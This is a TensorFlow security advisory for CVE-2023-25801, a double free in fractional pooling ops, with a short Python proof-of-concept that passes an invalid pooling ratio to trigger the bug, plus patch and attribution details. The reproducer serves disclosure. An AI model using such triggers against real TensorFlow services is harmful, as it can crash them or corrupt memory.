 ## TFSA-2023-173: Double free in Fractional(Max/Avg)Pool

### CVE Number
CVE-2023-25801

### Impact
`nn_ops.fractional_avg_pool_v2` and `nn_ops.fractional_max_pool_v2` require the first and fourth elements of their parameter `pooling_ratio` to be equal to 1.0, as pooling on batch and channel dimensions is not supported.

```python
import tensorflow as tf
import os
import numpy as np
from tensorflow.python.ops import nn_ops
try:
  arg_0_tensor = tf.random.uniform([3, 30, 50, 3], dtype=tf.float64)
  arg_0 = tf.identity(arg_0_tensor)
  arg_1_0 = 2
  arg_1_1 = 3
  arg_1_2 = 1
  arg_1_3 = 1
  arg_1 = [arg_1_0,arg_1_1,arg_1_2,arg_1_3,]
  arg_2 = True
  arg_3 = True
  seed = 341261001
  out = nn_ops.fractional_avg_pool_v2(arg_0,arg_1,arg_2,arg_3,seed=seed,)
except Exception as e:
  print("Error:"+str(e))
```

### Patches
We have patched the issue in GitHub commit [ee50d1e00f81f62a4517453f721c634bbb478307](https://github.com/tensorflow/tensorflow/commit/ee50d1e00f81f62a4517453f721c634bbb478307).

The fix will be included in TensorFlow 2.12. We will also cherrypick this commit on TensorFlow 2.11.1.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability was reported by [dmc1778](https://github.com/dmc1778), of [nimashiri2012@gmail.com](mailto:nimashiri2012@gmail.com).
